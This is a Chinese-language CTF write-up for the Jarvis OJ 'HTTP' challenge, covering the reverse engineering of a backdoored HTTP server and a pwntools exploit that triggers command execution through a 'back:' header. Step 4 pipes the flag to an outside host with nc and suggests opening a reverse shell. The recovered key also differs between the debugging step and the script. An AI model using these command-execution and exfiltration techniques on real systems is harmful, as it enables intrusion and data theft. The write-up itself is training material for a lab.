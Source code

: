```yaml
---
title: Jarvis OJ - HTTP の Write-Up
date: 2020-09-03 18:45:08
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Step 1

运行程序和Guess一样也没有回显，猜测也是一个开放端口的操作，checksec一下：

![](/img/HTTP/HTTP1.png)

<!-- more -->

## Step 2

直接进入逆向代码阶段，IDA打开程序，首先是main函数。果然又是一个socket服务器端模型，监听端口为0x70F即1807:

![](/img/HTTP/HTTP2.png)

根据伪代码，这个sub_40137C函数就是处理函数了，看下这个函数：

![](/img/HTTP/HTTP3.png)

又牵扯到一堆函数，一个一个看下，首先是sub_40125D函数：

![](/img/HTTP/HTTP4.png)

结合ASC II码，函数中间最长的if判断应该改写为：

```Python
if ( v6 <= 3
    	|| s[v6 - 1] != '\n'
    	|| s[v6 - 2] != '\r'
    	|| s[v6 - 3] != '\n'
    	|| s[v6 - 4] != '\r' )
	continue;
```

通过这个结构我们发现这是将HTTP请求包的Header和Body部分分开进行处理。这里主要是针对Header部分的处理是通过sub_40116C函数：

![](/img/HTTP/HTTP5.png)

“User-Agent:  ”的数据放在v4中由sub_400FAF函数先做个判断，此外Header中需要有个“back: ”的参数，且该参数将由sub_40102F函数处理。先看下这个函数和这个奇怪的“back: ”参数：

![](/img/HTTP/HTTP6.png)

这个函数看起来存在问题，提及到了可以执行shell命令的popen函数，错误回复信息中也提到了“command”的字眼，猜测是个可以导致命令执行的重点函数。

回头去看下处理“User-Agent:  ”字段的sub_400FAF函数：

![](/img/HTTP/HTTP7.png)

首先是通过sub_400D30函数得到s，然后将s与“User-Agent:  ”提交的数据循环做异或，看下sub_400D30函数：

![](/img/HTTP/HTTP8.png)

sub_400CEA函数：

![](/img/HTTP/HTTP9.png)

sub_400C86函数：

![](/img/HTTP/HTTP10.png)

大体上来说这个函数对数据进行一系列操作，但是并不需要了解细节。因为在sub_400FAF函数中发现sub_400D30函数操作的off_601CF0位置的数据，和我们的输入没有任何关系。所以理论上说sub_400D30函数的结果对于我们来说就是个固定的数值，只需要控制程序执行这个函数，然后直接读取最终数值就可以。

最后再看下sub_40116C函数中最后提到的sub_4010DF函数：

![](/img/HTTP/HTTP11.png)

这就是个普通的提示函数，没什么重要信息。

## Step 3

经过伪代码的分析，发现这个大致类似一个Webshell的方式。我们需要在HTTP的Header中提供User-agent 字段以及 back 字段。其中User-agent 字段的数据类似Webshell的password，与程序中的数据做对比。而back 字段是要执行的命令，程序收到包做了验证之后就会执行提交的命令，然后将命令执行结果在响应包的Body中返回。

根据上一步的分析，我们需要调试程序找到我们需要的User-agent 字段的数据，通过hopper发现直接在0x400fca位置下个断点就可以：

![](/img/HTTP/HTTP12.png)

根据sub_400d30函数，执行完之后结果会放到RAX寄存器中去：

![](/img/HTTP/HTTP13.png)

gdb attach上去下断点（下在主进程上）：

![](/img/HTTP/HTTP14.png)

然后nc上去会fork一个子进程，输入按要求的payload，触发sub_400D30函数：

![](/img/HTTP/HTTP15.png)

主进程断在我们想要的地方，发现了函数输出完之后，RAX寄存器中的数据：2016CCE

![](/img/HTTP/HTTP16.png)

下面就是EXP脚本的编写了：

```Python
from pwn import *

sh = remote('127.0.0.1', 1807)

key = '2016CCRT'

password = ''
num = 0
for x in key:
	password += chr(ord(x) ^ num)
	num += 1
print "password: " + password

command = 'cat flag'

payload = ""
payload += "GET / HTTP/1.1\r\n"
payload += "User-Agent: %s\r\n" % (password)
payload += "back: %s\r\n" % (command)
payload += "\r\n"
payload += "\r\n"
print "payload: " + payload

sh.sendline(payload)
sh.recv()
sh.close()
```

本地运行通过：

![](/img/HTTP/HTTP17.png)

![](/img/HTTP/HTTP18.png)

## Step 4

但是远程执行时，首先不知道flag文件格式。其次根据本地调试结果来看，回显的内容是在服务端，无法到达客户端，客户端只能通过Content-Length 字段得知了命令执行输出结果的长度。所以有以下几种方法：

* 通过一台公网服务器监听某个端口, 然后让目标服务器去执行`cat flag | nc [ip] [port]`命令将`cat flag`的输出结果发送给公网服务器的指定端口

* 使用`awk`等字符串处理命令来逐个字符读取flag，然后对这个字符进行判断是不是等于某一个字符，根据判断的结果产生不同的输出我们就可以根据这个输出的不同来判断这个我们猜测的字符是不是正确

* 最暴力的方法，直接反弹shell
